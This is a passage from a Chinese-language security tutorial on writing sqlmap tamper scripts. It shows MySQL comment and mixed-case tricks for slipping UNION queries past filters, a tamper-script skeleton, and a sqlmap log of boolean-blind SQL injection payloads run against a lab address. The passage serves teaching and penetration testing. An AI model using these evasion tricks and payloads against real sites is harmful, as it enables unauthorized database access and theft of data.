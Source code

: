 在MySQL语句中，我们可以通过`/*!UNION*/`或者`/**/UNION/**/` Agian or `UniOn`....都可以正常执行，前提是你必须了解各个数据库的特性。
就拿MySQL来说，它不区分大小写，那么我们传递的值有时候也可以通过大小写混淆的方式去绕过检测。

> 这些思路都是根据一个个基础知识通过构思、一个想法而产生的，然后再通过动手去实践想法，得出结论，最后产生“姿势”。 
> 你不缺乏想象力，你只是基础知识太弱。      - 倾旋

那么说了这么多，其实可以总结出：调用Tamper的条件就是必须能保证我们的SQL执行后与我们的期望结果相同。
意思也就是要满足数据库能够正常运行SQL(排除报错注入)。

## 0x02 Tamper简单结构概述

```py
#!/usr/bin/env python

"""
Copyright (c) 2006-2016 sqlmap developers (http://sqlmap.org/)
See the file 'doc/COPYING' for copying permission
"""

from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW # 当前脚本调用优先等级

def dependencies(): # 声明当前脚本适用/不适用的范围，可以为空。
    pass

def tamper(payload, **kwargs): # 用于篡改Payload、以及请求头的主要函数
    return payload
```

今天主要来讲tamper这个函数，总共两个参数。

`payload`主要是传递过来的是每个检测SQL注入的Payload，建议读者先找一个注入点测试并添加上`-v 3`参数，查看Payload体验一下。

> SQL Injection:http://192.168.1.149/sqli/example1.php?name=root

部分日志：

```
[14:00:27] [PAYLOAD] 5444
[14:00:27] [DEBUG] setting match ratio for current parameter to 0.859
[14:00:27] [INFO] confirming that GET parameter 'name' is dynamic
[14:00:27] [PAYLOAD] 6230
[14:00:27] [INFO] GET parameter 'name' is dynamic
[14:00:27] [PAYLOAD] root),)."")','
[14:00:27] [WARNING] heuristic (basic) test shows that GET parameter 'name' might not be injectable
[14:00:27] [PAYLOAD] root'jQBnEm<'">IXWAcV
[14:00:27] [INFO] testing for SQL injection on GET parameter 'name'
[14:00:28] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:00:28] [PAYLOAD] root) AND 1494=5040 AND (7286=7286
[14:00:28] [DEBUG] setting match ratio for current parameter to 0.859
[14:00:28] [PAYLOAD] root) AND 6033=6033 AND (6260=6260
[14:00:28] [PAYLOAD] root AND 9786=3346
[14:00:28] [DEBUG] setting match ratio for current parameter to 0.859
[14:00:28] [PAYLOAD] root AND 6033=6033
[14:00:28] [PAYLOAD] root') AND 7485=8545 AND ('IUCd'='IUCd
[14:00:28] [DEBUG] setting match ratio for current parameter to 0.634
[14:00:28] [PAYLOAD] root') AND 6033=6033 AND ('qlLE'='qlLE
[14:00:28] [PAYLOAD] root' AND 5621=6946 AND 'OKld'='OKld
[14:00:28] [DEBUG] setting match ratio for current parameter to 0.859
[14:00:28] [PAYLOAD] root' AND 6033=6033 AND 'HFDv'='HFDv
[14:00:28] [PAYLOAD] root' AND 9642=7321 AND 'reXb'='reXb
```
我们此时站在自动化检测工具的角度去分析这个注入点
